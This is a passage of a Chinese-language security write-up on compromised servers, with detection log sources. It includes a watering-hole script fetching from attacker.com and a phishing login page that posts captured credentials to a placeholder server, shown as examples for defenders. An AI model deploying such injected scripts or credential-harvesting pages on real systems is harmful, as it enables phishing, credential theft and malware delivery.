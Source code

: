   - **水坑攻击**：修改Web服务器内容，注入恶意JavaScript：
    ```html
    <script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/malware.js', true);
    xhr.send();
    </script>
    ```
  - **钓鱼网站**：托管伪装的登录页面：
    ```html
    <html>
    <head><title>TargetCorp Login</title></head>
    <body>
        <form id="login-form">
            <input type="text" id="username" placeholder="Username">
            <input type="password" id="password" placeholder="Password">
            <input type="submit" value="Login">
        </form>
        <script>
            document.getElementById('login-form').addEventListener('submit', function(e) {
                e.preventDefault();
                var data = {
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                };
                fetch('http://<SERVER_IP>/collect', {
                    method: 'POST',
                    body: JSON.stringify(data)
                });
            });
        </script>
    </body>
    </html>
    ```
- **案例场景**：
  - 攻击者通过钓鱼获取Web服务器管理员凭据，注入恶意JavaScript，发起水坑攻击。
  - 利用未修补的SSH漏洞入侵服务器，部署Cobalt Strike C2，控制受感染主机。

## 检测日志
服务器入侵活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **服务器管理日志**：
  - 记录异常的登录尝试、配置变更或新服务安装。
- **网络流量日志**：
  - 检测与受损服务器的异常通信，如C2流量或钓鱼页面访问。
- **DNS日志**：
  - 记录解析到受损服务器IP的异常域名查询。
- **邮件服务器日志**：
  - 监控针对服务器管理员账户的钓鱼邮件。
- **防火墙/IDS日志**：
  - 检测针对服务器的漏洞利用尝试或异常流量模式。
